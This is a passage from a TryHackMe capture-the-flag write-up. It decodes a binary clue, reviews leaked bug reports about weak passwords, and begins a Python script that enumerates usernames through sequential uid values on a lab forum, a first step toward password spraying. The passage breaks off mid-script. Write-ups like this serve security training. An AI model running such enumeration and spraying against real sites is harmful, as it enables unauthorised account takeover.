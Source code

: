 **How about decode the binary data?**
```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|17:08:41(HKT)]
└> python3
Python 3.10.9 (main, Dec  7 2022, 13:47:07) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> n = int('0100101101100101011110010110110101100001011010110110010101110010', 2)
>>> n.to_bytes((n.bit_length() + 7) // 8, 'big').decode()
'Keymaker'
```

`Keymaker`. Hmm...

**After reading all of those reports, I found this report is very interesting, as in a normal bug bounty report, you won't do that:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230125152935.png)

This report revealed that some users are using weak password.

Now, if we can hijack an administrator level account, that would be very helpful for us.

**Speaking of account hijacking, I also found this report is useful:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230125153225.png)

**Also, in the "Members" page, we can fetch all usernames:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230125153425.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/M4tr1x-Exit-Denied/images/Pasted%20image%2020230125153436.png)

In here, the `uid` is incremented by 1, which means an attacker can easily enumerate all users.

Hmm... Let's write a Python script to enumerate all usernames and password spraying.

**Enumerate all usernames:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
from bs4 import BeautifulSoup

class Enumerater:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, uid):
        requestResult = requests.get(f'{self.__url}{uid}')
        soup = BeautifulSoup(requestResult.text, 'html.parser')

        if 'The member you specified is either invalid or doesn\'t exist.' in soup.get_text():
            exit()
        else:
            username = soup.title.string[23:]
            print(f'[+] Found valid username: {username}')

            # Write valid username to disk
            with open('username.txt', 'a') as file:
                file.write(f'{username}\n')

def main():
    url = 'http://exit-denied.thm/member.php?action=profile&uid='
    enumerater = Enumerater(url)

    for uid in range(1, 100):
```